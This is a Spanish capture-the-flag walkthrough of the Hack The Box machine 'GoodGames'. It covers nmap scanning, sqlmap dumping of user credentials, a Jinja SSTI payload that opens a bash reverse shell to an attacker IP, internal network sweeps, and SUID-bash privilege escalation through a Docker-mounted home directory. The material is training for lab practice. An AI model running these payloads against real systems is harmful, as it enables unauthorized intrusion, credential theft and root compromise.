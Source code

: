 ```yaml
---
description: '✍️ Autor: TheCyberGeek🔍 Dificultad: Fácil 📅 Fecha de creación: 24/01/2022'
---
```


# GoodGames

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.130
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1278).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.130
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1279).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 80 (HTTP):** Este puerto generalmente está asociado a servidores web. Si el servicio está ejecutando un servidor web como Apache, Nginx o IIS, es recomendable buscar vulnerabilidades conocidas relacionadas con el software y versiones en uso (por ejemplo, a través de CVEs). Además, es importante realizar pruebas de seguridad en las aplicaciones web que se ejecutan en el servidor, como inyecciones SQL, Cross-Site Scripting (XSS) o vulnerabilidades de escalada de privilegios.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 10.10.11.130
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1280).png" alt=""><figcaption></figcaption></figure>

Accedemos al puerto 80.

<figure><img src="../../.gitbook/assets/image (1281).png" alt=""><figcaption></figcaption></figure>

Es una página de Juegos y tiene un Login vamos a usar entonces SQLMap.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-22 100654.png" alt=""><figcaption></figcaption></figure>

Conocer las bases de datos.

```
sqlmap -u http://10.10.11.130 --forms --dbs --batch
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Conocer las tablas de la base de datos objetivo.

```
sqlmap -u http://10.10.11.130 --forms -D main --tables --batch
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Conocer las columnas de la tabla de la bases de datos objetivo.

```
sqlmap -u http://10.10.11.130 --forms -D main -T user --columns --batch
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Conocer la información que hay en esas columnas.

```bash
sqlmap -u http://10.10.11.130 --forms -D main -T user -C name,id,email,password --dump --batch
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado unas credenciales aunque la contraseña al ser un hash la crackeamos.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Después de analizar el sitio web del perfil, encontramos un símbolo de configuración que nos redirige a una URL con un dominio diferente. Como primer paso, registraremos este nuevo dominio en el archivo `/etc/hosts`.

```bash
echo "10.10.11.130 internal-administration.goodgames.htb" >> /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con **Wappalyzer** se ejecuta **Python** por lo que parece una vulnerabilidad **SSTI**. Para ello realizamos la comprobación básica.

```
{{ 7 * 7 }}
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es vulnerable a **SSTI** por lo que realizamos un payload que contiene una Reverse Shell.

```
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"').read() }}
```

Nos ponemos en escucha.

```bash
nc -nlvp 4444
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.** No somos root de manera oficial.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La interfaz de red está conectada al adaptador de red interna con la dirección `172.19.0.2/16`, lo que nos permite comunicarnos con la red interna desde nuestra máquina de ataque a través de la red comprometida.

Para descubrir los hosts en la red interna, utilizamos el siguiente comando en una sola línea para realizar un escaneo de barrido:

```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done;
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Una vez identificado un objetivo, realizamos un escaneo de puertos con el siguiente comando:

```bash
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comencé a buscar credenciales de SSH en la máquina y finalmente encontré la carpeta de un usuario dentro del directorio `/home`. Sin embargo, no encontré a `augustus` en el archivo `/etc/passwd`.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que el puerto 22 y 80 están abiertos, por lo que intentamos conectarnos por SSH con el usuario augustus utilizando la contraseña que habíamos encontrado previamente (superadministrator).

```bash
ssh augustus@172.19.0.1
whoami
augustus
```

Como el directorio home del usuario augustus está montado en el contenedor **Docker** y tenemos acceso como usuario **root**, podemos trasladar un binario con permisos **SUID** al home de **augustus** para escalar privilegios a root en el host.

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls
bash  user.txt

root@3a453ab39d3d:/home/augustus chown root:root /home/augustus/bash  
root@3a453ab39d3d:/home/augustus chmod +s /home/augustus/bash

augustus@GoodGames:~$ ./bash -p
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) egid=0(root) groups=0(root),1000(augustus)
bash-5.1# whoami
root
```

Ahora que hemos logrado elevar nuestros privilegios a **root** en la máquina víctima, podemos proceder a leer la flag del usuario **root**.

<figure><img src="../../.gitbook/assets/image (1283).png" alt=""><figcaption></figcaption></figure>
